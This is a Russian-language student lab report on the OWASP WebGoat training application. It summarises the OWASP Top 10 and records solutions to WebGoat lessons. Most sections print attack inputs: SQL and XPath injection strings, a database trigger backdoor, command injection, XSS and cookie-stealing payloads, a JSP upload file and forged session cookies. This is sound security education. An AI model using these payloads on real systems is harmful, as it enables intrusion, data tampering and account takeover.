\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{placeins}
\author{Анастасия Тарасова}
\title{Отчет по лабораторной работе №5\\ Проект OWASP WebGoat}
\begin{document}
\maketitle
\section{Цель работы}
Изучить описание деятельности самых распространенных веб-уязвимостей согласно рейтингу OWASP.
\section{Ход работы}

\paragraph{Исследование 10 самых распространенных web-уязвимостей по рейтингу OWASP} 

\begin{enumerate}
\item \textbf{Injection} Атака на интепритатор машины-цели, позволяя выполнять произвольный код от ее имени. Чаще всего встрачаются в SQL, LDAP, Xpath, или NoSQL запросах, парсерах xml, аргументах программ и т.д.

\item \textbf{Broken Authentication and Session Management} Атака на уязвимости систем авторизации и управления сессиями с целью кражи и/или выполнения каких либо действий от чужого имени.

\item \textbf{Cross-Site Scripting} Атака на браузер путем подмены загружаемых скриптов. В результате злоумышлиниками может быть получена почти любая информация.

\item \textbf{Insecure Direct Object References} Суть атаки - изменение некого объекта, используемого в авторизированной сессии. Пример: 
\begin{verbatim}
String query = "SELECT * FROM accts WHERE account = ?";
PreparedStatement pstmt = connection.prepareStatement(query , … );

pstmt.setString( 1, request.getParameter("acct")); <<<<<

ResultSet results = pstmt.executeQuery( );
\end{verbatim}

Изменение параметра позволит отправлять измененные запросы от имени авторизированного пользователя.

\item \textbf{Security Misconfiguration} Ошибки в конфигурации. Атакующий может получить доступ к файлам, акаунтам, системе и т.д.

\item \textbf{Sensitive Data Exposure} Кража ценной/личной информации. Атака сложна если используется шифрование. В таком случае данные крадутся косвенными методами: на стороне клиента, когда данные уже рашифрованы, man-in-the-middle атака и другими способами.

\item \textbf{Missing Function Level Access Control} Доступ неавторизированного пользователя к привелегированным функциям. 
Пример: 

\begin{verbatim}
http://example.com/app/getappInfo
http://example.com/app/admin_getappInfo <<<<
\end{verbatim}

Доступ к функции admin\_getappInfo должен иметь только администратор. Соответственно, если пользователь, не являющийся администритором получает доступ к данной функции - это уязвимость.

\item \textbf{Cross-Site Request Forgery} Атака путем выполнения запросов к некоторому защищенному ресурсу от его имени авторизованного пользователя. Недостаток - атакующий \textbf{НЕ} может перехватить ответ от ресурса. В этом случае вводят так называемые CSRF-токены: каждый последующий пакет от клиента содержит токен, полученный в пердыдущем ответе сервера.

\item \textbf{Using Components with Known Vulnerabilities} Атака на уязвимый компонет системы, выявленный в результате сканирования.

\item \textbf{Unvalidated Redirects and Forwards} Скрытые ссылки в картинках, фреймах и т.д., ведущих на доверенный сайт. Позволяет произвести любой запрос.
Пример:
\begin{verbatim}
http://www.example.com/redirect.jsp?url=evil.com
\end{verbatim}
\end{enumerate}

\paragraph{Подготовка}
Скачаем WebGoat, OWASP Mantra, OWASP Zed Attack Proxy. 

Запустим уязвимое приложение WebGoat (рисунок 1).
\FloatBarrier
\begin{figure}[h!]
\centering

\includegraphics[scale=0.5]{1}
\caption{Запуск WebGoat в браузере Mantra}
\end{figure}
\FloatBarrier
Настроим инструмент Mantra для использования ZAP (сканера безопасновати) в качестве прокси-сервера (рисунок 2).
\FloatBarrier
\begin{figure}[h!]
\centering

\includegraphics[scale=0.5]{2}
\caption{Настройка прокси-сервера}
\end{figure}
\FloatBarrier
Запустим ZAP и видим, что на панели сайтов появился WebGoat и перехват запросов(рисунок3).
\FloatBarrier
\begin{figure}[h!]
\centering

\includegraphics[scale=0.4]{3}
\caption{Работа ZAP}
\end{figure}
\FloatBarrier
Зададим Http Basics, введем своем имя в поле и поставим ZAP в режим прослушивания (рисунок 4).
\FloatBarrier
\begin{figure}[h!]
\centering

\includegraphics[scale=0.4]{4}
\caption{ZAP в режиме прослушивания}
\end{figure}
\FloatBarrier
Отправим данные (GO!) и увидим, что был перехвачем POST запрос (рисунок 5.)
\FloatBarrier
\begin{figure}[h!]
\centering

\includegraphics[scale=0.4]{5}
\caption{ZAP перехватил POST запрос}
\end{figure}
\FloatBarrier
Теперь отправим данные, Подменим введенные данные (было Anastasiya, станет ayisatsanA). Урок пройдет.
\paragraph{Недостатки контроля доступа}
\begin{enumerate}
\item Bypass Bussines Layer Access.\\
Включаем прокси и авторизовываемся за пользователя имеющего права удаления. Используя прокси смотрим параметры запроса для удаления.
Затем для пользователя, у которого нет указанных прав, перехватываем пакет и передаем нужную операцию в качестве параметра.
\begin{verbatim}
employee_id=105&action=DeleteProfile
\end{verbatim}
\item Bypass Data Layer Access
Перехватываем пакет и подменим в нем id запрашиваемого пользователя.
\begin{verbatim}
employee_id=104&action=ViewProfile
\end{verbatim}
\end{enumerate}
\paragraph{Безопасность AJAX}
\begin{enumerate}
\item Dom based cros-site scripring
Наблюдаем уязвимости, открытые перед злоумышленником, если вхоные данные не экранированы.\\
Для защиты от этой уязвимости используем функцию escapeHTML().

\item Same origin Policy Protection. 

Позволяет запускать скрипты только с того же домена.

\item Client Side Filtering. 
Данные фильтруются на клиентской строне. Чтобы избежать эту уязвимость надо фильтровать данные еще до отправки.
 
Пример ответа на запрос:
\begin{verbatim}
<table align='center' cellspacing='0' width='90%' border='1' cellpadding='0'><tr><td>UserID</td>
<td>First Name</td><td>Last Name</td>
<td>SSN</td><td>Salary</td></tr><tr id='101'>
<td>101</td><td>Larry</td><td>Stooge</td>
<td>386-09-5451</td><td>55000</td></tr>
<tr id='102'><td>102</td><td>Moe</td>
<td>Stooge</td><td>936-18-4524</td><td>140000</td></tr>
<tr id='103'><td>103</td><td>Curly</td>
<td>Stooge</td><td>961-08-0047</td>
<td>50000</td></tr><tr id='104'><td>104</td><td>Eric</td>
<td>Walker</td><td>445-66-5565</td>
<td>13000</td></tr><tr id='105'><td>105</td>
<td>Tom</td><td>Cat</td><td>792-14-6364</td><td>80000</td></tr>
<tr id='106'><td>106</td><td>Jerry</td>
<td>Mouse</td><td>858-55-4452</td><td>70000</td></tr>
<tr id='107'><td>107</td><td>David</td>
<td>Giambi</td><td>439-20-9405</td><td>100000</td></tr>
<tr id='108'><td>108</td><td>Bruce</td>
<td>McGuirre</td><td>707-95-9482</td><td>110000</td></tr>
<tr id='109'><td>109</td><td>Sean</td>
<td>Livingston</td><td>136-55-1046</td><td>130000</td></tr>
<tr id='110'><td>110</td><td>Joanne</td>
<td>McDougal</td><td>789-54-2413</td><td>90000</td></tr>
<tr id='111'><td>111</td><td>John</td>
<td>Wayne</td><td>129-69-4572</td><td>200000</td></tr>
<tr id='112'><td>112</td><td>Neville</td>
<td>Bartholomew</td><td>111-111-1111</td><td>450000</td></tr></table>

\end{verbatim} 
 
Правильная фильтрация:
\begin{verbatim}
	sb.append("/Employees/Employee/ [Managers/Manager/text()='" + userId +"']/UserID | ");
	sb.append("/Employees/Employee/ [Managers/Manager/text()='" + userId +"']/FirstName | ");
	sb.append("/Employees/Employee/ [Managers/Manager/text()='" + userId +"']/LastName | ");
	sb.append("/Employees/Employee/ [Managers/Manager/text()='" + userId +"']/SSN | ");
	sb.append("/Employees/Employee/ [Managers/Manager/text()='" + userId +"']/Salary ");
\end{verbatim} 

\item DOM injection

Добавить строку в документ:
document.forms[0].SUBMIT.disabled=false;

\item XML Injection

При посылке запроса добавить:
\begin{verbatim}
<root>
<reward>WebGoat Mug 20 Pts</reward>
<reward>WebGoat t-shirt 50 Pts</reward>
<reward>WebGoat Secure Kettle 30 Pts</reward>
<reward>WebGoat Core Duo Laptop 2000 Pts</reward>
<reward>WebGoat Hawaii Cruise 3000 Pts</reward>
</root>
\end{verbatim}


\item JSON Injection

При посылке изменить ответ на:

\begin{verbatim}
{
"From": "Boston",
"To": "Seattle", 
"flights": [
{"stops": "0", "transit" : "N/A", "price": "$20"},
{"stops": "2", "transit" : "Newark,Chicago", "price": "$300"} 
]
}
\end{verbatim}
\item Sielent tansactions attack
Находим клиентскую функцию для отправки, вызываем ее.
submitData(555, 1000000)
\item Insecure client srorage
Очередное!
Снимаем флажки readonly, ставим карточку GOLD, обнуляем стоимость покупок.
\item Dangerous use of eval
Нужно ввести в поле
\begin{verbatim}
')%3Balert(document.cookie%2B'something
\end{verbatim}
\end{enumerate}
\paragraph{Недостатки аутентификации}
\begin{enumerate}
\item Password strength
Можно узнать примерное время взлома пароля. Время подбора пароля растет вместе с его длиной.
\item Forgot password
Сложность восстановления пароля должна быть сопоставима с подобором пароля.
\item Multi level login 1
Перехватываем пакет, выставляем hiddentan=1.
\item Multi level login 2
Авторизуемся за Joe, вводим его tan, перехватываем сообщение и в запросе указываем Jane.
\begin{verbatim}
Results:
Username: admin
Color: green
Password: 2275$starBo0rn3
\end{verbatim}
\end{enumerate}
\paragraph{Переполнение буффера}
Перехватываем пакет, в поле roomno вбиваем >4086 символов. Идем до конца. После регистрации посматриваем скрытые поля. Выбираем одного из них. Заходим от его имени для завершения.
\begin{verbatim}
<input type="HIDDEN" value="Hamilton" name="a"></input>
<input type="HIDDEN" value="Lewis" name="b"></input>
<input type="HIDDEN" value="9901" name="c"></input>
\end{verbatim}
\paragraph{Качество кода}
При просмотре страницы имеется комментарий admin:adminpw. Это и является логином и паролем администратора.
\paragraph{Многопоточность}
\begin{enumerate}
\item Thread safety problem
При одновременном получении данных пользователя можно получить чужие данные. Открываем два окна вводим имена пользователей. Можем получить чужие данные.
\item Shopping cart Concurrency flew
Открываем два окна, в одном делаем большую покупку, в другом - маленькую. Продолжаем дешевую покупку, обновляем большую. При подтверждении оплачиваем небольшую сумму, но получаем большую покупку.
\end{enumerate}
\paragraph{Неправильная обработка ошибок}
Перехватываем пакет, удаляем передаваемый параметр пароль и успешно проходим авторизацию.
\paragraph{Недостатки приводящие к осуществлению инъекций}
\begin{enumerate}
\item Command injection
Перехватываем запрос, добавляем к имени файла строку:
\begin{verbatim}
%22%3B%20netstat%20-a
\end{verbatim}
\item Numeric SQL injection
Перехватываем запрос. Меняем:
\begin{verbatim}
station=101or%201%3D1&SUBMIT=Go!
\end{verbatim}
\item Log spoofing
Перехватываем запрос, меняем имя на следующее:
\begin{verbatim}
somename
Admin succefully entered!
\end{verbatim}
В результате, в логе создается видимость того, что админ авторизоавлся.
\item XPath Injection 
К имени добавляем:
\begin{verbatim}
' or 1=1 or 'a'='a
\end{verbatim}
\item SQL Injection
Перехватываем сообщение. В качестве пароля пишем:
\begin{verbatim}
azaza%27%20OR%20%271%27%3D%271
\end{verbatim}
При попытке получить данные на втором шаге получаем :
\begin{verbatim}
THIS LESSON ONLY WORKS WITH THE DEVELOPER VERSION OF WEBGOAT
\end{verbatim}
\item String sql injection
Аналогично. Вместо имени вводим azaza' OR 'a' = 'a. Получаем все возможные значения.
\item Modify Data with SQL INJECTION
Вместо имени вводим:
\begin{verbatim}
azaza'; UPDATE salaries SET salary=1000000 WHERE userid='jsmith
\end{verbatim}
Получаем на счету миллион.
\item Database backdoors
Также можно добавлять и триггеры:
\begin{verbatim}
101; CREATE TRIGGER myBackDoor BEFORE INSERT ON employee FOR EACH ROW BEGIN UPDATE employee SET email='john@hackme.com' WHERE userid = NEW.userid
\end{verbatim}
\end{enumerate}
\paragraph{Отказ в обслуживании}
\begin{enumerate}
\item ZipBomb 
Cоздадим архив с файлом содержащим одинаковые символы. Он хорошо сожмется. Отправляем. Для распаковки требуется очень много места.
\item Denial of Service from Multiple Logins
Используем инъекцию для получения паролей. Вместо пароля пишем:
\begin{verbatim}
"dont_care' or '1' = '1"
\end{verbatim}
Получаем таблицу:
\begin{verbatim}
101	jsnow	passwd1	
102	jdoe	passwd2	
103	jplane	passwd3	
104	jeff	jeff	
105	dave	dave	
\end{verbatim}
Используем результаты для авторизации. Из-за большого количества сессий получаем отказ в обслуживании.
\end{enumerate}

\paragraph{Небезопасное сетевое взаимодействие}
Перехватим пакет, вытащим из аргумента password пароль. Меняем соединение на защищенное, пароль недоступен.
\paragraph{Небезопасная конфигурация}
Если знать адрес интерфейса администрирования, можно получить доступ под собственными паролями.
Расположено по адресу WebGoat/conf.
\paragraph{Небезопасное хранилище}
Есть возможность попробовать различные строки и увидеть особенности кодировки строк различными алгоритмами.
\paragraph{Исполнение злонамеренного кода}
Если на сервере неправильно настроены директории для сканирования скриптов, можно загрузить собственный исполняемый файл, перейти на интересующую старицу и выполнить злонамеренный код.
Содержимое файла attack.jsp
\begin{verbatim}
<HTML>
<%
java.io.File file = new java.io.File("C:\\Users\\llama\\Desktop\\secure\\.extract\\webapps\\WebGoat\\mfe_target\\webgoat.txt");
file.createNewFile();
%>
</HTML>
\end{verbatim}
\paragraph{Подделка параметров}
\begin{enumerate}
\item Bypas HTML Field Restrictions 
Перехватим сообщение. Изменим все поля. Добавим disabledinput.
\item Exploit Hidden Fields
Перехватываем, меняем...
\item Exploit unchecked email
Отправляем сообщение типа:
\begin{verbatim}
<script>alert("No");</script>
\end{verbatim}
Для отправки сообщения friend перехватываем сообщение меняем параметр "to" чтобы получилось: 
\begin{verbatim}
gId=GMail+id&gPass=password&subject=Comment+for+WebGoat&to=webgoat.admin
%40owasp.org&msg=%3Cscript%3Ealert(%22Bad+Stuff%22)%3B%3C%2Fscript%3E&SUBMIT=Send!
\end{verbatim}
\item Bypass Client Side JavaScript Validation
Аналогично.
\end{enumerate}
\paragraph{Недостатки управления сессией}
\begin{enumerate}
\item Подделка сессии. Перехватываем два ключа.
\begin{verbatim}
webgoat 65432ubphcfx
aspect  65432udfqtb
\end{verbatim}
Ключи получаются добавлением к строке 65432 инвертированного имени со смещением букв +1. Для пользователя alice это 65432fdjmb.
Далее перехватываем пакеты, добавляем поле в заголовок Cookie AuthCookie=65432fdjmb
\item HiJack a session
Принцип тот же, только намного сложнее.
\item Session fixation
Вынудим жертву пройти по ссылке, которая установит значение session id. Затем как в предыдущем случае использовать этот известный номер для авторизации от имени жертвы. В данной версии переход по ссылке ничего не дает.
\end{enumerate}
\section{Выводы}
WebGoat имеет большое количество уязвимостей. Многие из них встречаются редко так как они известны и существует множество средств для выявления уязвимостей.
\end{document}